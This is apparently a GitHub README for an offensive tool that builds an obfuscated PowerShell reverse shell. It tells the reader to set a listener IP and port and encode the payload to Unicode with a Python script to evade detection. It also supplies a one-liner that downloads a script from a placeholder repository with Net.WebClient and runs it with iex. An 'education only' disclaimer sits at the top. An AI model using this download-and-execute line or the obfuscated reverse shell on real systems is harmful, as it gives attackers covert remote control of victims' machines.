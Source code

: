 ⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


**Instructions**

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.
2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format.
3. Replace the Unicode payload on the demontime.ps1 script with the output generated from the Python script.

**Optional**

Fork this repo so you can run the following one liner:
**NOTE: Replace the URL with your own forked repo.** 

`iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire ((New-Object 	System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxx/experiment/main/demontime.ps1'));demontime`


